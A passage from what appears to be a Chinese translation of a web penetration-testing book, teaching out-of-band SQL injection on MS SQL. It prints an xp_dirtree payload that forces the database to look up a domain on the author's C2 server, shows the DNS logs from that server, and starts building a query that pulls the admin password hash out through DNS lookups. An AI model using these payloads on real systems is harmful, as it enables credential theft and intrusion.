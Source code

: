 当后台系统构建查询以执行时，它将转换为以下内容：

```
SELECT * FROM users WHERE user = 'Dade';**declare @q varchar(99);set @q='\\sqli-test-payload-1.c2.spider.ml\test'; exec master.dbo.xp_dirtree @q;--**';
```

再次检查我们的 C2 服务器上的`/var/log/inetsim/service.log`文件时，我们可以看到来自 SQL 服务器后台的查询，试图在执行共享目录列表之前解析`sqli-test-payload-1.c2.spider.ml`域名：

```
[1438] [dns_53_tcp_udp 1441] connect
[1438] [dns_53_tcp_udp 1441] recv: Query Type A, Class IN, Name **sqli-test-payload-1.c2.spider.ml**
[1438] [dns_53_tcp_udp 1441] send: sqli-test-payload-1.c2.spider.ml 3600 IN A **35.196.100.89**
[1438] [dns_53_tcp_udp 1441] disconnect
```

我们已强制应用程序向我们控制的服务器发起 DNS 查询。通过在 C2 日志中看到非常特定的查询，我们能够确认存在可利用的 SQL 注入漏洞。

# 异步数据泄露

这种特定类型的漏洞还有一个挑战。由于它的异步特性，传统的数据泄露方法无法使用。虽然查询可能会成功执行，且 SQL 服务器会延迟查询结果，但我们永远无法衡量这一点，因为我们所针对的应用程序不会等待 SQL 服务器的响应，而是立即返回。

我们需要稍微动点脑筋才能提取数据并成功攻破目标。MS SQL 服务器、MySQL、PostgreSQL 等都提供了实现我们目标的方法。我们将只讨论一种 MS SQL 的方法，但凭借一些创意，任何数据库引擎都可以为攻击者所用。还要记住，这种方法不仅可以用于确认 SQL 注入漏洞，也可以用于 XSS 和 XXE 漏洞，这些内容在本书的其他章节中有讨论。

让我们重新回顾一下我们用来确认漏洞的方法。我们传入了一个查询，强制 SQL 服务器解析一个任意的域名，试图通过 SMB 列出网络共享的内容。由于我们控制着该共享域名的 DNS 服务器，我们可以拦截发送到它的任何查询。确认漏洞的过程只是观察到应用服务器尝试解析我们传入的网络共享域名。要实际获取数据，我们需要构建一个执行这些操作的查询：

+   按角色选择一个高价值用户（`admin`）

+   选择该用户的密码

+   用句点连接这两个值：[admin].[hash]

+   将该值添加到`c2.spider.ml`域名前面

+   强制执行 DNS 查询

与我们的第一个载荷类似，我们将声明一个变量`@q`，该变量将存储我们从数据库中提取的数据：

```
declare @q varchar(99);
```

接下来，我们将使用几个`SELECT`语句来读取第一个具有`admin`角色的账户的`user`字段：

```
select top 1 user from users where role = 'admin'
```

我们还将选择该用户的`password`字段：

```
select top 1 password from users where role = 'admin'
```

为了泄露这些数据，我们需要使用 MS SQL 的`CONCAT()`函数来拼接这两个值：
